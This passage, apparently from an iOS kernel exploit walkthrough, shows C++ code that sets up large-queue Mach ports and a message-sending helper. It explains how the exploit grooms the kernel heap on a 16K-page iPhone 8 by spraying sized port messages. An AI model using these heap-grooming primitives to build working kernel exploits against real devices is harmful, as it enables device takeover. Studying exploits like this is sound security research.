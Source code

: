 ```cpp
    mach_port_limits_t limits = {0};
    limits.mpl_qlimit = MACH_PORT_QLIMIT_LARGE;
    ret = mach_port_set_attributes(mach_task_self(), port, MACH_PORT_LIMITS_INFO, (mach_port_info_t)&limits, MACH_PORT_LIMITS_INFO_COUNT);
    if (ret) {
        printf("[-] failed to increase queue limit\n");
        mach_port_destroy(mach_task_self(), port);
        return MACH_PORT_NULL;
    }
    
    return port;
}
```

Then we can retrieve ports one at a time using POP_PORT macro.


```cpp
// setup 200 ports for later use
for (int i = 0; i < 200; i++) {
    ports[i] = new_mach_port();
}
int port_i = 0;

#define POP_PORT() ports[port_i++]
```

## Heap Grooming

**I've added code under `ENABLE_HELPER` macro so exploit process can be inspected more closely.**

**Enabling that macro makes it easy to tell where kernel addresses were allocated.**

From code, it looks like heap-grooming phase runs before actual exploitation.

Heap grooming is the technique of manipulating allocator’s behavior to control heap layout so that, when vulnerability is triggered, desired data lands at specific locations.

Kernel heap attacks vary depending on whether kernel page size is 4K or 16K — iPhone 8 used in this demonstration uses 16K pages.

Each group of 10 ports that was created is used to allocate about 10 MB of port messages, and allocated regions are filled with buffers of either **0x72** or **0x74** byte sizes so regions can be distinguished.

```cpp
kern_return_t send_message(mach_port_t destination, void *buffer, mach_msg_size_t size) {
    mach_msg_size_t msg_size = sizeof(struct simple_msg) + size;
    struct simple_msg *msg = malloc(msg_size);
    
    memset(msg, 0, sizeof(struct simple_msg));
    
    msg->hdr.msgh_remote_port = destination;
    msg->hdr.msgh_local_port = MACH_PORT_NULL;
    msg->hdr.msgh_bits = MACH_MSGH_BITS(MACH_MSG_TYPE_MAKE_SEND, 0);
    msg->hdr.msgh_size = msg_size;
    
    memcpy(&msg->buf[0], buffer, size);
    
    kern_return_t ret = mach_msg(&msg->hdr, MACH_SEND_MSG, msg_size, 0, MACH_PORT_NULL, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);
    if (ret) {
        printf("[-] failed to send message\n");
        mach_port_destroy(mach_task_self(), destination);
        free(msg);
        return ret;
    }
```